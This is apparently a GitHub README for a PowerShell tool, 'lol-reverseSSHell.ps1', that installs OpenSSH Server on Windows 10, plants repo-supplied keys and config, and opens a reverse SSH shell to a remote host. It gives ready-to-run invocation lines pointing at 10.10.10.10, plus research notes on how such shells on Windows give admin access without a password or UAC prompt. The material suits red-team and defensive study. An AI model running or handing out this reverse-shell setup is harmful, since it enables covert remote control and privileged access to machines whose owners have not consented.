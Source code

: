 # lol-reverseSSHell.ps1
Living Off the LAN Reverse Shell over SSH

This script is intended to make SSH reverse shells easier on Windows 10. It will install OpenSSH Server (if missing) on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys files in the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Unix vs Windows Reverse SSH Shells, and the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost and port will connect to a shell under the context of the user that initiated the reverse ssh connection. 
  
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
   
* Admin privleges - Because the shell is ran using an admin PS promt, the shell will have admin privleges without ever needing to know the user's admin password. After a shell has been initiated, there is no passwords or UAC to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permission issue.  

